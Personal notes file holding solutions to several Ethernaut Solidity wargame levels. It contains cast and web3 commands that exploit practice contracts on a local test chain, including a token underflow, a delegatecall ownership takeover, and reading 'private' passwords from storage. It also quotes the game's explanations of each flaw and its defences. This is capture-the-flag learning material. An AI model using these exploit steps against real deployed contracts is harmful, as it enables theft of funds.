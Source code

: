 # notes

## Fallback:

1. `cast send <CONTRACT-ADDRESS> "contribute()" --value 0.001ether --private-key <PRIVATE-KEY> --rpc-url http://localhost:8545`
2. `cast send <CONTRACT-ADDRESS> --value 0.0001ether --private-key <PRIVATE-KEY> --rpc-url http://localhost:8545`
3. `cast send <CONTRACT-ADDRESS> "withdraw()" --private-key <PRIVATE-KEY> --rpc-url http://localhost:8545`

## Token:

paste this line in command:
```js
await contract.transfer(contract.address, 500)
```
this will cause underflow `2^256 - 480 = 115792089237316195423570985008687907853269984665640564039457584007913129639456`.

### success message:

```txt
Overflows are very common in solidity and must be checked for with control statements such as:

if(a + c > a) {
  a = a + c;
}
An easier alternative is to use OpenZeppelin's SafeMath library that automatically checks for overflows in all the mathematical operators. The resulting code looks like this:

a = a.add(c);
If there is an overflow, the code will revert.
```

## Delegate:

paste this line command:

```js
await contract.sendTransaction({data:web3.eth.abi.encodeFunctionSignature("pwn()")})
```

or use [this script](../script/DelegateAttacker.s.sol)

### success message:

Usage of delegatecall is particularly risky and has been used as an attack vector on multiple historic hacks. With it, your contract is practically saying "here, -other contract- or -other library-, do whatever you want with my state". Delegates have complete access to your contract's state. The delegatecall function is a powerful feature, but a dangerous one, and must be used with extreme care.

Please refer to the The [Parity Wallet Hack](https://blog.openzeppelin.com/on-the-parity-wallet-multisig-hack-405a8c12e8f7) Explained article for an accurate explanation of how this idea was used to steal 30M USD.

## Vault:
- get contract's address using `contract.address`. I've got `0x06B1D212B8da92b83AF328De5eef4E211Da02097`.
- If you run `await contract.locked()` you'll get true.
- password is in storage position 1. so read it using:

```bash
cast storage 0x06B1D212B8da92b83AF328De5eef4E211Da02097 1
>> 0x412076657279207374726f6e67207365637265742070617373776f7264203a29
```

-  now call the `unlock(bytes32)` function using cast:
   
```bash
cast send 0x06B1D212B8da92b83AF328De5eef4E211Da02097 "unlock(bytes32)" 0x412076657279207374726f6e67207365637265742070617373776f7264203a29 --rpc-url http://127.0.0.1:8545 --private-key 0xac0974bec39a17e36ba4a6b4d238ff944bacb478cbed5efcae784d7bf4f2ff80
```
- **wait a few sec like 10-15 seconds** & now if you run `await contract.locked()` in console, you'll get `false`.

### success message:

It's important to remember that marking a variable as private only prevents other contracts from accessing it. State variables marked as private and local variables are still publicly accessible.

To ensure that data is private, it needs to be encrypted before being put onto the blockchain. In this scenario, the decryption key should never be sent on-chain, as it will then be visible to anyone who looks for it. [zk-SNARKs](https://blog.ethereum.org/2016/12/05/zksnarks-in-a-nutshell) provide a way to determine whether someone possesses a secret parameter, without ever having to reveal the parameter.

## King:

### Links:
- [About King](https://www.kingoftheether.com/thrones/kingoftheether/index.html)
- [King Postmortem](https://www.kingoftheether.com/postmortem.html)

## Reentrancy:

I refered this [blog](https://www.cyfrin.io/glossary/sending-ether-transfer-send-call-solidity-code-example)

### success message:

In order to prevent re-entrancy attacks when moving funds out of your contract, use the [Checks-Effects-Interactions pattern](https://docs.soliditylang.org/en/develop/security-considerations.html#use-the-checks-effects-interactions-pattern) being aware that call will only return false without interrupting the execution flow. Solutions such as [ReentrancyGuard](https://docs.openzeppelin.com/contracts/2.x/api/utils#ReentrancyGuard) or [PullPayment](https://docs.openzeppelin.com/contracts/2.x/api/payment#PullPayment) can also be used.

transfer and send are no longer recommended solutions as they can potentially break contracts after the Istanbul hard fork [Source 1](https://diligence.consensys.io/blog/2019/09/stop-using-soliditys-transfer-now/), [Source 2](https://forum.openzeppelin.com/t/reentrancy-after-istanbul/1742).

Always assume that the receiver of the funds you are sending can be another contract, not just a regular address. Hence, it can execute code in its payable fallback method and re-enter your contract, possibly messing up your state/logic.

Re-entrancy is a common attack. You should always be prepared for it!

**The DAO Hack**

The famous DAO hack used reentrancy to extract a huge amount of ether from the victim contract. [See 15 lines of code that could have prevented TheDAO Hack.](https://blog.openzeppelin.com/15-lines-of-code-that-could-have-prevented-thedao-hack-782499e00942)


## Privacy

The contract is storing secret data in **contract's storage** like below:

```
  bool public locked = true;
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(block.timestamp);
  bytes32[3] private data;
```

now the contract's storage slot looks like:

```
#0 => bool locked
#1 => uint256 ID
#2 => uint8 flattening + uint8 denomination + uint16 awkardness
#3 => bytes32 data[0]
#4 => bytes32 data[1]
#5 => bytes32 data[2]
```

- get the `bytes32 data[2]` from **storage slot #5** using `cast storage <CONTRACT-ADDRESS> 5`
- take the first **16-bytes** and attach `0x` infront of it and send it the contract
- `cast send <CONTRACT-ADDRESS> "unlock(bytes16)" 768154e92adb5f1901c74c0fbb0faadd --rpc-url http://localhost:8545 --private-key <PRIVATE-KEY>`
- now check the **storage slot #0** if it is 0. the level is done